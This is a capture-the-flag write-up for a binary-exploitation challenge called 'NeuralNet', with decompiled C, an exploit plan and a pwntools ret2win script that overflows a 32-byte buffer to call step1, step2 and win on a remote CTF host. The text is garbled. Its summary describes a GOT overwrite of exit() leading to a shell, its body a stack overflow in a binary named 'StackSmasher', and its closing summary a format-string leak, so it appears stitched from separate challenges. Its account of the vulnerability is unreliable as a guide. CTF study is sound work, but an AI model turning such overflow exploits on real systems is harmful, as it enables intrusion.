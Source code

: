 # NeuralNet - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/NeuralNet.gif)

---

## Challenge Summary

The Neural Net Simulator binary provides a menu-driven interface with several functions, including a debug option that allows arbitrary memory writes by letting the user overwrite a "neuron" address with a new value. The program leaks the address of the predict_outcome function at startup, enabling us to calculate the base address of the binary.

The exploit involves using this leak to compute the binary’s base address and then overwriting the exit() entry in the Global Offset Table (GOT) with the address of the hidden unlock_secret_research_data() function. By selecting option 4 (Exit), the program will call this overwritten GOT entry, granting shell access via system("/bin/sh").

## Binary Information

```bash
$ file NeuralNet
```

![Alt text](img/2.png)

```bash
$ checksec NeuralNet
```

![Alt text](img/3.png)

---

## Static Analysis (IDA pro)

### Vulnerable Code

```c
int func()
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  printf("%s", "Input username:");
  read(0, buf, 0x80uLL);
  return printf("Your name is %s", buf);
}
```

![Alt text](img/4.png)

- The `func()` function reads 128 bytes of input into the 32-byte buffer `buf`, causing a **buffer overflow**.
- This allows control over the **return address**, enabling the attacker to redirect execution to the `win()` function.

### `win()` Function

```c
int win()
{
  int result; // eax
  const char *s; // [rsp+8h] [rbp-8h]

  s = getenv("FLAG_VAL");
  result = first;
  if ( first )
  {
    result = second;
    if ( second )
      return puts(s);
  }
  return result;
}
```

![Alt text](img/5.png)

- The `win()` function requires both `first` and `second` to be set to `1` to print the flag.

### `step1()` and `step2()` Functions

```c
void step1() { first = 1; }
void step2() { second = 1; }
```

- The attacker can call `step1()` and `step2()` by exploiting the buffer overflow to trigger the flag print in `win()`.

---

## Exploit Strategy

### Step 1: Overflow the Buffer

We exploit the buffer overflow by sending input larger than 32 bytes, overwriting the **return address** and controlling the **RIP** to redirect execution to the `win()` function.

### Step 2: Call `step1()` and `step2()`

After redirecting execution to `win()`, we must:

- Call `step1()` to set `first = 1`.
- Call `step2()` to set `second = 1`.

### Step 3: Trigger the Flag

Once both `first` and `second` are set, the `win()` function will print the flag stored in the `FLAG_VAL` environment variable.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template StackSmasher --host ctf.mf.grsu.by --port 9078
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'StackSmasher')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'ctf.mf.grsu.by'
port = int(args.PORT or 9078)

env_vars = {'FLAG_VAL': 'grodno{dummy_flag}'}

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, env= env_vars, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

offset = 40
payload = flat (
        b'A' * 40,
        exe.symbols['step1'],
        exe.symbols['step2'],
        exe.symbols['win']
)
io.sendline(payload)
io.recvuntil(b'@')
flag = io.recvline().strip(b'"\n')
log.success(f"FLAG : {flag.decode()}")


```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

- **Format string vulnerability** allows leaking memory using `%p` and `%s`.
- The leaked memory provides the **address of the `FLAG_VAL` environment variable**.
- By reading the leaked address, we can **extract the flag**.

---

## Flag

```
grodno{unCL3_M47V3y_w45_h3R3_w17H_0ld_5Ch00L_3xPL017}
```
